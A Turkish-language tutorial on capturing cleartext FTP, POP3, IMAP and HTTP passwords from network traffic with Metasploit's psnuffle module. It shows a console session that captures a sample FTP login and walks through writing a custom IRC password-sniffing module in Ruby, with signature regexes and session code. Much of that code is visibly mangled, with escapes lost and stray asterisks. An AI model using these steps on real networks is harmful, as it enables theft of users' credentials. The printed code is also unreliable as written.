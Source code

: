 ```yaml
---
draft: false
title: MSF İçinde Parola Dinleme
linkTitle: Parola Dinleme
weight: 120
translationKey: password-listening-in-msf
date: 2017-05-16T12:56:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.
url: /tr/msf-icinde-parola-dinleme/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.

`psnuffle` modülü, neredeyse hiçbir ayarlama yapmaya gerek kalmadan kullanılabilir. İsterseniz dışarıdan PCAP dosyası ithal edebilirsiniz. Buradaki örnekte, ayarlar olduğu gibi kullanılacaktır.
```bash
msf > use auxiliary/sniffer/psnuffle
msf auxiliary(psnuffle) > show options

Module options:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILTER                      no        The filter string for **capturing traffic
   INTERFACE                   no        The name of the interface
   PCAPFILE                    no        The name of the PCAP capture file to process
   PROTOCOLS  all              yes       A comma-delimited list of protocols to sniff or "all".
   SNAPLEN    65535            yes       The number of bytes to capture
   TIMEOUT    1                yes       The number of seconds to wait for **new data

msf auxiliary(psnuffle) > run
> Auxiliary module execution completed
> Loaded protocol FTP from /usr/share/metasploit-framework/data/exploits/psnuffle/ftp.rb...
> Loaded protocol IMAP from /usr/share/metasploit-framework/data/exploits/psnuffle/imap.rb...
> Loaded protocol POP3 from /usr/share/metasploit-framework/data/exploits/psnuffle/pop3.rb...
> Loaded protocol URL from /usr/share/metasploit-framework/data/exploits/psnuffle/url.rb...
> Sniffing traffic.....
> Successful FTP Login: 192.168.1.100:21-192.168.1.5:48614 **>>** victim / pass (220 3Com 3CDaemon FTP Server Version 2.0)
```

Gördüğünüz gibi FTP protokolünde `victim` kullanıcı adı ve `pass` parolası ortaya çıkarıldı.

## Psnuffle Özelleştirme

İsterseniz, `psnuffle` aracını, varsayılan olarak dinlediği protokoller haricinde diğer protokoller için de tasarlayabilirsiniz.

Bu özelleştirme işlemi için yapılacak modüller, data/exploits/psnuffle klasörünün içine kaydedilmelidir. Yeni bir modül geliştirmek için öncelikle var olan bir modülü şablon olarak kullanabiliriz.

Aşağıda, POP3 modülünün Düzenli ifadeler kısmı görülmektedir. Bu düzenli ifadeler, dinleme esnasında hangi tür şablona uyan verilerin dikkate alınacağını tanımlamaktadır. Bir miktar karışık gibi görünebilir. Ancak düzenli ifadeleri öğrenmenizi tavsiye ediyoruz. Her yerde karşınıza çıkar ve öğrenirseniz, işinizi kolaylaştırırlar.
```bash
self.sigs = {
:ok => /^(+OK[^n]*****)n/si,
:err => /^(-ERR[^n]*****)n/si,
:user => /^USERs+**([**^n]+)n/si,
:pass => /^PASSs+**([**^n]+)n/si,
:quit => /^(QUITs*****[^n]*****)n/si }
```

## IRC Modülü

Aşağıdaki örneklerde, IRC protokolü için yazılmış bir modülde olması gerekenleri görebilirsiniz.

Öncelikle, dikkate alınacak sinyal tiplerini tanımlayalım. Buradaki IRC komutlarından IDENTIFY, her IRC sunucu tarafından kullanılmamaktadır. En azında Freenode bu şekilde kullanır.
```bash
self.sigs = {
:user => /^(NICKs+[^n]+)/si,
:pass => /b(IDENTIFYs+[^n]+)/si,}
```

## Oturum Tanımlama (Session)

Her modül için mutlaka tanımlanması gereken kısım, hangi Portlar ile ilgileneceğidir. Bu tanımlama için aşağıdaki şablonu kullanabilirsiniz.
```bash
**return if **not pkt[:tcp] # We don't want to handle anything other than tcp
**return if** (pkt[:tcp].src_port **!=** 6667 and pkt[:tcp].dst_port **!=** 6667) # Process only packet on port 6667

#Ensure that the session hash stays the same for both way of communication
**if** (pkt[:tcp].dst_port **==** 6667) # When packet is sent to server
s = find_session("#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}-#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}")
**else** # When packet is coming from the server
s = find_session("#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}-#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}")
end
```

Şimdi ise `self.sigs` bölümünde şablonu oluşturulan türde bir paket yakalandığında ne yapılacağını ayarlamanız gerekmekte. Bunun için de aşağıdaki şablonu kullanabilirsiniz.
```bash
**case** matched
when :user # when the pattern "/^(NICKs+[^n]+)/si" is matching the packet content
s[:user]=matches #Store the name into the session hash s for later use
# Do whatever you like here... maybe a puts if you need to
when :pass # When the pattern "/b(IDENTIFYs+[^n]+)/si" is matching
s[:pass]=matches # Store the password into the session hash s as well
**if** (s[:user] and s[:pass]) # When we have the name and the pass sniffed, print it
print "-> IRC login sniffed: #{s[:session]} >> username:#{s[:user]} password:#{s[:pass]}n"
end
sessions.delete(s[:session]) # Remove this session because we dont need to track it anymore
when nil
# No matches, don't do anything else # Just in case anything else is matching...
sessions[s[:session]].merge!**({**k => matches**})** # Just add it to the session object
end
```

Tebrikler kendi modülünüzü yazdınız.
